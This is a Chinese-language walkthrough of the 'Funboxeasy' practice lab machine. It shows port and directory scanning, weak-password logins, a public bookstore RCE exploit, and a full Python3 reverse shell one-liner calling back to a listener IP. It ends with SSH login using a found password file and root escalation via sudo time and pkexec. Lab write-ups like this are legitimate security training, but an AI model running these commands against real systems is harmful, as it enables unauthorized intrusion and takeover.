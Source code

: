 # Funboxeasy
启动靶机，连接vpn
```
sudo openvpn universal.opvn
```

先 ping 一下目标机器。
```
ping 192.168.160.111
```

![[Pasted image 20240813083420.png]]


使用浏览器输入IP address，得出开放 80 端口
![[Pasted image 20240813091523.png]]

接着开始信息收集，扫描端口和目录。

nmap扫描
```
nmap 192.168.160.111
```
![[Pasted image 20240813092417.png]]


dirsearch扫描
```
dirsearch -u 192.168.160.111
```
![[Pasted image 20240813094205.png]]


rustscan扫描
```
rustscan -a 192.168.160.111 --range 1-65535 --ulimit 5000 -- -A
```
![[Pasted image 20240813095239.png]]

得出以下信息：
```
可疑目录:
/admin/index.php
/secret
/store

开放端口：
22
80
33060
```

首先进入进入 admin 页面，貌似是 CRM 模板
![[Pasted image 20240813095433.png]]

尝试弱口令
```
admin admin
admin 123456
```
失败

搜索模板漏洞
https://www.exploit-db.com/exploits/49995

使用 Authentication Bypass 登陆后台
![[Pasted image 20240813101154.png]]

转了一大圈，没有什么发现

接着查看下一个可疑目录，尝试访问 http://192.168.160.111/secret/
无发现，但 `/secret` 看起来很可疑，可以再扫一遍
```
dirsearch http://192.168.160.111/secret/
```
仍然没有什么发现。

然后查看下一个可疑目录，尝试访问 http://192.168.160.111/store/
![[Pasted image 20240813101333.png]]

右下角有管理员登陆，进入
![[Pasted image 20240813101634.png]]
尝试弱口令
```
admin admin
```
登陆成功
![[Pasted image 20240813101752.png]]
然而依然没有什么可以攻击的点

由于这个页面好像是由模板`cse bookstore`建的，于是搜索 `cse bookstore exploit`，发现 Unauthenticated Remote Code Execution
![[Pasted image 20240813102127.png]]


复制粘贴，并使用脚本，由于漏洞很老，所以在 python2 的环境下运行。
```
python2 bookstore.py http://192.168.160.111/store
```

![[Pasted image 20240813102935.png]]
获得webshell

接下来开始 webshell 转 reverse shell

监听端口4444
```
nc -nvlp 4444
```
![[Pasted image 20240813104123.png]]

利用 bash 拿 reverse shell

![[Pasted image 20240813104100.png]]

![[Pasted image 20240813104140.png]]

但是失败，换一个，nc shell
![[Pasted image 20240813104453.png]]
依旧失败

尝试使用，python，查询有无 python2 和 python3
![[Pasted image 20240813104644.png]]
发现 python3

于是利用python3 拿 reverse shell
```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.222",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/sh")'

```
![[Pasted image 20240813105005.png]]
目标是 Linux 系统，所以 `?cmd=` 要加上 `/usr/bin/python3`.

成功拿到 reverse shell
![[Pasted image 20240813105245.png]]
flag 经常在 `/var` `/www` `use/share` `/home`里

![[Pasted image 20240813105652.png]]
`/www`下找到 flag

查找哪些命令可以用 root 权限来执行
```
find / -perm -u=s -type f 2>/dev/null
```
发现 `sudo` 可以执行

接下来尝试提权，利用网站 https://gtfobins.github.io/ 得到提权命令
![[Pasted image 20240813110530.png]]
因为 `sudo` 可以执行，所以输入 `sudo` ，找出可以提权的命令。
由于是 webshell 不能用 sudo 提权，不知道 www-data(web-usr) 的密码
于是进一步信息搜集，去到目录 `/home` 
找到敏感文件 `password.txt`
![[Pasted image 20240813111032.png]]

利用 `ssh` 和获取的密码连接用户 `tony`，成功
```
ssh tony@192.168.160.111
```
![[Pasted image 20240813111649.png]]

使用命令 `sudo -l` ，查看可以使用 `sudo` 的命令
![[Pasted image 20240813112213.png]]

接着用 `time` 进行提权
![[Pasted image 20240813112241.png]]

提权成功，变为 `root`，`cd /root` ，找到 flag，结束

# 8.16 再打
连接 `ssh` 后，除了用 `time` 提权，还可以用 `pkexec` 提权
```shell
sudo pkexec /bin/sh
```
